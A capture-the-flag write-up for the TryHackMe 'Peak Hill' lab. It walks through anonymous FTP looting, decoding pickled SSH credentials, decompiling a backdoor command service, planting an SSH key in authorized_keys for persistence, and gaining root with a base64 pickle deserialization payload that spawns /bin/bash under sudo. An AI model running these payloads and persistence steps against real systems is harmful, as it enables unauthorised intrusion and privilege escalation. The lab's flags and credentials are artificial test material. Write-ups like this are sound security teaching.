

# Peak Hill

Exercises in Python library abuse and some exploitation techniques

Deploy and compromise the machine!

Make sure you're connected to TryHackMe's network.

# Recon

## Services discovery

~~~
PORT     STATE  SERVICE  VERSION
20/tcp   closed ftp-data
21/tcp   open   ftp      vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 ftp      ftp            17 May 15 18:37 test.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.11.9.81
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp   open   ssh      OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 04:d5:75:9d:c1:40:51:37:73:4c:42:30:38:b8:d6:df (RSA)
|   256 7f:95:1a:d7:59:2f:19:06:ea:c1:55:ec:58:35:0c:05 (ECDSA)
|_  256 a5:15:36:92:1c:aa:59:9b:8a:d8:ea:13:c9:c0:ff:b6 (ED25519)
7321/tcp open   swx?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NotesRPC, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, WMSRequest, X11Probe, afp, giop, ms-sql-s, oracle-tns: 
|     Username: Password:
|   NULL: 
|_    Username:
~~~

## Port 21 (anonymous FTP only)

~~~
$ ftp 10.10.19.17
Connected to 10.10.19.17 (10.10.19.17).
220 (vsFTPd 3.0.3)
Name (10.10.19.17:unknown): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
227 Entering Passive Mode (10,10,19,17,159,63).
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 May 15 18:37 .
drwxr-xr-x    2 ftp      ftp          4096 May 15 18:37 ..
-rw-r--r--    1 ftp      ftp          7048 May 15 18:37 .creds
-rw-r--r--    1 ftp      ftp            17 May 15 18:37 test.txt
226 Directory send OK.
ftp> get .creds
local: .creds remote: .creds
227 Entering Passive Mode (10,10,19,17,49,255).
150 Opening BINARY mode data connection for .creds (7048 bytes).
226 Transfer complete.
7048 bytes received in 0.00345 secs (2043.49 Kbytes/sec)
ftp> get test.txt
local: test.txt remote: test.txt
227 Entering Passive Mode (10,10,19,17,132,154).
150 Opening BINARY mode data connection for test.txt (17 bytes).
226 Transfer complete.
17 bytes received in 0.000884 secs (19.23 Kbytes/sec)
ftp> quit
221 Goodbye.
$ cat test.txt 
vsftpd test file
$ cat .creds
100000000000001101[REDACTED]10100101110
~~~

## Port 7321
~~~
$ nc 10.10.19.17 7321
Username: admin
Password: admin
Wrong credentials!
~~~

# #1 - What is the user flag?

## Decode pickle message

I've written a python script to decode the binary string gathered in the `.creds.txt` file (FTP):

```python
#!/usr/bin/env python3

with open('creds_decoded.txt', 'w') as credsout, open('creds.txt', 'r') as credsin:
	r = credsin.read()
	# chunks of 8
	b = ' '.join([r[i:i+8] for i in range(0, len(r), 8)])
	# decode
	credsout.write(''.join([chr(int(c, 2)) for c in b.split(' ')]))
```

Run it to get the following decoded text:

~~~
$ cat creds_decoded.txt 
]q(X
ssh_pass15qXuqqX	ssh_user1qXhqqX
ssh_pass25qXrq	X
ssh_pass20q
hq
  X	ssh_pass7q
qX      ssh_user0qXgqqX
ssh_pass26qXlqqX	ssh_pass5qX3qqX	ssh_pass1qX1qq�X
qXh_pass22q
ssh_pass12qX@qqX	ssh_user2q Xeq!q"X	ssh_user5q#Xiq$q%X
q'X_pass18q&h
ssh_pass27q(Xdq)q*X	ssh_pass3q+Xkq,q-X
ssh_pass19q.Xtq/q0X	ssh_pass6q1Xsq2q3X	ssh_pass9q4hq5X
ssh_pass23q6Xwq7q8X
ssh_pass21q9hq:X	ssh_pass4q;hq<X
ssh_pass14q=X0q>q?X	ssh_user6q@XnqAqBX	ssh_pass2qCXcqDqEX
ssh_pass13qFqGX
ssh_pass16qHhAqIX	ssh_pass8qJhqKX
ssh_pass17qLh)qMX
ssh_pass24qNh>qOX	ssh_user3qPqQX	ssh_user4qRh,qSX
qUX_passssh_pass0qVXpqWqXX
ssh_pass10qYhqZe.
~~~

The file is actually a *pickled* python file (https://docs.python.org/3/library/pickle.html):

*"The pickle module implements binary protocols for serializing and de-serializing a Python object structure. “Pickling” is the process whereby a Python object hierarchy is converted into a byte stream, and “unpickling” is the inverse operation, whereby a byte stream (from a binary file or bytes-like object) is converted back into an object hierarchy. Pickling (and unpickling) is alternatively known as “serialization”, “marshalling,” 1 or “flattening”; however, to avoid confusion, the terms used here are “pickling” and “unpickling”."*

Let's decode the binary string with CyberChef first and get a `creds.dat` file:



Now, let's decode the file:

```python
#!/usr/bin/env python3

import pickle
import re

with open('creds.dat', 'rb') as f:
	data = pickle.load(f)
	sshuser = []
	sshpass = []

	for i in data:
		pos = int(re.findall('\d+', i[0])[0])
		if 'ssh_user' in i[0]:
			sshuser.append([pos, i[1]])
		else:
			sshpass.append([pos, i[1]])

	sshuser.sort()
	sshpass.sort()
	print("SSH user: {}".format(''.join([i[1] for i in sshuser])))
	print("SSH pass: {}".format(''.join([i[1] for i in sshpass])))
```

Here is the script output:

~~~
$ python creds_decode_pickle.py 
SSH user: gherkin
SSH pass: p1ckl3s_@11_@r0und_th3_w0rld
~~~

## SSH connection

Now, let's use the credentials to connect to the SSH service.

We have a compiled python script in our home. Let's get it locally and uncompile it with uncompyle6:

```python
$ uncompyle6 cmd_service.pyc 
# uncompyle6 version 3.7.0
# Python bytecode 3.8 (3413)
# Decompiled from: Python 3.8.3 (default, May 15 2020, 00:00:00) 
# [GCC 10.1.1 20200507 (Red Hat 10.1.1-1)]
# Embedded file name: ./cmd_service.py
# Compiled at: 2020-05-14 19:55:16
# Size of source mod 2**32: 2140 bytes
from Crypto.Util.number import bytes_to_long, long_to_bytes
import sys, textwrap, socketserver, string, readline, threading
from time import *
import getpass, os, subprocess
username = long_to_bytes(1684630636)
password = long_to_bytes(2457564920124666544827225107428488864802762356)

class Service(socketserver.BaseRequestHandler):

    def ask_creds(self):
        username_input = self.receive(b'Username: ').strip()
        password_input = self.receive(b'Password: ').strip()
        print(username_input, password_input)
        if username_input == username:
            if password_input == password:
                return True
        return False

    def handle(self):
        loggedin = self.ask_creds()
        if not loggedin:
            self.send(b'Wrong credentials!')
            return None
        self.send(b'Successfully logged in!')
        while True:
            command = self.receive(b'Cmd: ')
            p = subprocess.Popen(command,
              shell=True, stdout=(subprocess.PIPE), stderr=(subprocess.PIPE))
            self.send(p.stdout.read())

    def send(self, string, newline=True):
        if newline:
            string = string + b'\n'
        self.request.sendall(string)

    def receive(self, prompt=b'> '):
        self.send(prompt, newline=False)
        return self.request.recv(4096).strip()


class ThreadedService(socketserver.ThreadingMixIn, socketserver.TCPServer, socketserver.DatagramRequestHandler):
    pass


def main():
    print('Starting server...')
    port = 7321
    host = '0.0.0.0'
    service = Service
    server = ThreadedService((host, port), service)
    server.allow_reuse_address = True
    server_thread = threading.Thread(target=(server.serve_forever))
    server_thread.daemon = True
    server_thread.start()
    print('Server started on ' + str(server.server_address) + '!')
    while True:
        sleep(10)


if __name__ == '__main__':
    main()
# okay decompiling cmd_service.pyc
```


```python
$ python
>>> from Crypto.Util.number import long_to_bytes
>>> print(long_to_bytes(1684630636))
b'dill'
>>> print(long_to_bytes(2457564920124666544827225107428488864802762356))
b'n3v3r_@_d1ll_m0m3nt'
```

~~~
$ nc 10.10.50.9 7321
Username: dill
Password: n3v3r_@_d1ll_m0m3nt
Successfully logged in!
Cmd: cat /home/dill/user.txt
f1e13335c47306e193212c98fc07b6a0
~~~

User flag: `f1e13335c47306e193212c98fc07b6a0`


# #2 - What is the root flag?

## Maintain access

Unfortunately, these credentials didn't work on the server directly (dill's password is different than the one hardcoded in the shell).

Let's add our SSH key to dill's `.ssh` directory to be able to connect via SSH directly. First generate a public key and a private key on our own machine:

~~~
$ ssh-keygen -t rsa
$ cat id_rsa.pub 
ssh-rsa AAAAB3Nz[REDACTED]7YP7lhvLfM= unknown@localhost.localdomain
~~~

Now let's add this string to dill's `.ssh` directory using the backdoor:

~~~
Cmd: echo "ssh-rsa AAAAB3Nz[REDACTED]71CiH7YP7lhvLfM= unknown@localhost.localdomain" >> /home/dill/.ssh/authorized_keys
~~~

Now, we can connect directly in SSH without password.

~~~
$ ssh dill@10.10.50.9
dill@ubuntu-xenial:~$ whoami
dill
~~~

Let's check our privileges

~~~
dill@ubuntu-xenial:~$ sudo -l
Matching Defaults entries for dill on ubuntu-xenial:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dill may run the following commands on ubuntu-xenial:
    (ALL : ALL) NOPASSWD: /opt/peak_hill_farm/peak_hill_farm
~~~

This program needs to be run as root:

~~~
dill@ubuntu-xenial:/opt/peak_hill_farm$ ./peak_hill_farm 
[31780] Cannot open self /opt/peak_hill_farm/peak_hill_farm or archive /opt/peak_hill_farm/peak_hill_farm.pkg
~~~

There are many files in `/opt/peak_hill_farm/`:

~~~
dill@ubuntu-xenial:/opt/peak_hill_farm$ ll
total 11404
drwxr-xr-x 2 root root    4096 May 15 18:38 .
drwxr-xr-x 3 root root    4096 May 20 21:56 ..
-rwxr-x--- 1 root root  788413 May 15 18:38 base_library.zip
-rwxr-x--- 1 root root   22000 Apr 17 15:25 _bz2.cpython-35m-x86_64-linux-gnu.so
-rwxr-x--- 1 root root  149880 Apr 17 15:25 _codecs_cn.cpython-35m-x86_64-linux-gnu.so
-rwxr-x--- 1 root root  158104 Apr 17 15:25 _codecs_hk.cpython-35m-x86_64-linux-gnu.so
-rwxr-x--- 1 root root   31128 Apr 17 15:25 _codecs_iso2022.cpython-35m-x86_64-linux-gnu.so
-rwxr-x--- 1 root root  268664 Apr 17 15:25 _codecs_jp.cpython-35m-x86_64-linux-gnu.so
-rwxr-x--- 1 root root  137592 Apr 17 15:25 _codecs_kr.cpython-35m-x86_64-linux-gnu.so
-rwxr-x--- 1 root root  113016 Apr 17 15:25 _codecs_tw.cpython-35m-x86_64-linux-gnu.so
-rwxr-x--- 1 root root  156624 Apr 17 15:25 _ctypes.cpython-35m-x86_64-linux-gnu.so
-rwxr-x--- 1 root root   29488 Apr 17 15:25 _hashlib.cpython-35m-x86_64-linux-gnu.so
-rwxr-x--- 1 root root   66800 Jul  4  2019 libbz2.so.1.0
-rwxr-x--- 1 root root 2365952 Feb 27  2019 libcrypto.so.1.0.0
-rwxr-x--- 1 root root  166032 Sep 12  2019 libexpat.so.1
-rwxr-x--- 1 root root  137400 Feb 12  2014 liblzma.so.5
-rwxr-x--- 1 root root 4547880 Apr 17 15:25 libpython3.5m.so.1.0
-rwxr-x--- 1 root root  282392 Feb  4  2016 libreadline.so.6
-rwxr-x--- 1 root root  428384 Feb 27  2019 libssl.so.1.0.0
-rwxr-x--- 1 root root  167240 Feb 19  2016 libtinfo.so.5
-rwxr-x--- 1 root root  104864 Jan 21 19:13 libz.so.1
-rwxr-x--- 1 root root   37616 Apr 17 15:25 _lzma.cpython-35m-x86_64-linux-gnu.so
-rwxr-x--- 1 root root   44144 Apr 17 15:25 _multibytecodec.cpython-35m-x86_64-linux-gnu.so
-rwxr-x--- 1 root root    6504 Apr 17 15:25 _opcode.cpython-35m-x86_64-linux-gnu.so
-rwxr-x--x 1 root root 1218056 May 15 18:38 peak_hill_farm
-rwxr-x--- 1 root root   31688 Apr 17 15:25 readline.cpython-35m-x86_64-linux-gnu.so
-rwxr-x--- 1 root root   15432 Apr 17 15:25 resource.cpython-35m-x86_64-linux-gnu.so
-rwxr-x--- 1 root root  118744 Apr 17 15:25 _ssl.cpython-35m-x86_64-linux-gnu.so
-rwxr-x--- 1 root root   25032 Apr 17 15:25 termios.cpython-35m-x86_64-linux-gnu.so
~~~

Let's run the `peak_hill_farm` executable. It asks for a question ("to grow"). Obviously, as I provided the wrong answer, I have an error message in return.

~~~
dill@ubuntu-xenial:/opt/peak_hill_farm$ sudo ./peak_hill_farm 
Peak Hill Farm 1.0 - Grow something on the Peak Hill Farm!

to grow: oops
this not grow did not grow on the Peak Hill Farm! :(
~~~

By chance, I tried to provide "pickles" as answer just for fun and had a different message:

~~~
dill@ubuntu-xenial:/opt/peak_hill_farm$ sudo ./peak_hill_farm 
Peak Hill Farm 1.0 - Grow something on the Peak Hill Farm!

to grow: pickles
failed to decode base64
dill@ubuntu-xenial:/opt/peak_hill_farm$ echo -n "pickles" | base64
cGlja2xlcw==
dill@ubuntu-xenial:/opt/peak_hill_farm$ sudo ./peak_hill_farm 
Peak Hill Farm 1.0 - Grow something on the Peak Hill Farm!

to grow: cGlja2xlcw==
this not grow did not grow on the Peak Hill Farm! :(
~~~

## Becoming root

This room is about python, pickle and exploitation. Let's search on the Internet for an exploit that allows privilege escalation. I found this interesting document (https://www.sans.org/cyber-security-summit/archives/file/summit-archive-1542133788.pdf), especially on page 21. I tried the exploit for the `id` command which executed on the server. Now, let's modify the command to get a shell:

~~~
dill@ubuntu-xenial:/opt/peak_hill_farm$ python3
Python 3.5.2 (default, Apr 16 2020, 17:47:17) 
[GCC 5.4.0 20160609] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import os
>>> import pickle
>>> import base64
>>> class evil_object(object):
...     def __reduce__(self):
...         return (os.system, ('/bin/bash',))
... 
>>> x = evil_object()
>>> holdit = pickle.dumps(x)
>>> base64.b64encode(holdit)
b'gANjcG9zaXgKc3lzdGVtCnEAWAkAAAAvYmluL2Jhc2hxAYVxAlJxAy4='
>>> 
~~~

Now that we have our base64 payload, let's use it:

~~~
dill@ubuntu-xenial:/opt/peak_hill_farm$ sudo ./peak_hill_farm 
Peak Hill Farm 1.0 - Grow something on the Peak Hill Farm!

to grow: gANjcG9zaXgKc3lzdGVtCnEAWAkAAAAvYmluL2Jhc2hxAYVxAlJxAy4=
root@ubuntu-xenial:/opt/peak_hill_farm# whoami
root
root@ubuntu-xenial:/opt/peak_hill_farm# 
~~~

Another trick to read the root flag:

~~~
root@ubuntu-xenial:/opt/peak_hill_farm# cd /root/
root@ubuntu-xenial:/root# ls /root/
 root.txt 
root@ubuntu-xenial:/root# cat root.txt
cat: root.txt: No such file or directory
root@ubuntu-xenial:/root# find /root/ -name "*root.txt*"
/root/ root.txt 
root@ubuntu-xenial:/root# find /root/ -name "*root.txt*" -exec cat {} \;
e88f0a01135c05cf0912cf4bc335ee28
~~~

Root flag: `e88f0a01135c05cf0912cf4bc335ee28`
